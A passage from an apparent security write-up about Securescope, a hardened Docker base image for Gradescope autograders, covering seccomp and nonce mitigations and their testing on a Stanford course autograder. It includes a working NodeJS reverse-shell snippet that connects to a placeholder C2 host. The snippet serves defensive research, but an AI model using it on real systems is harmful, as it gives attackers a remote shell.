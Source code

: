* Verify result integrity by having client code include a provided nonce in the `results.json` file that is only added after student code is run
    - This prevents student code from crashing client code to have its write to `run_autograder` take effect
* Use `seccomp` to prevent student code from using `inotify` kernel watchers to write to `results.json` after client code exits

These features are switched off by default such that client autograders can simply inherit their Docker base from Securescope without any change in functionality from using Gradescope's base Docker image. The security features can be toggled on using environment variables and minimal additions to client code.

When client code uses each of these features effectively, this addresses all of my above demonstrated attacks. **There are certainly remaining exploitable attack surfaces past these mitigations. True security is only possible when client code and student code are run by different processes with different user privileges.**

## Testing

Beyond testing Securescope with the example Python calculator assignment, I also subjected Securescope to a more real-world test. Having taken the *CS 255 Introduction to Cryptography* course at Stanford last year, I was able to get access to that course's autograder client code (with TA permission) for a project implementing a simple password manager in NodeJS. I then replaced the autograder base image with Securescope, turning on and integrating each of the security features into the autograder client code (which only took about 20 minutes). 

In addition to testing the official solution and my own submission from last year, I also collected submissions from a few friends who took the course this and last year and uploaded those to the Securescope-integrated autograder. Each submission yielded the same results on Securescope as when originally scored with the default autograder.

To validate the efficacy of Securescope's security features on this assignment, I rewrote some earlier attacks in NodeJS, then uploaded them to test:

```js
// reverse shell
(function() {
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(C2_PORT, C2_HOST, function() {
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/;
})();
```

The above attack was prevented by the `seccomp` IP socket syscall blocker:

{{< figure src="images/gradescope-seccomp-block-ip.png" alt="Seccomp IP socket syscall blocker preventing reverse shell attack" position="center" style="border-radius: 8px;" caption="Seccomp IP socket syscall blocker preventing reverse shell attack" captionPosition="center" >}}
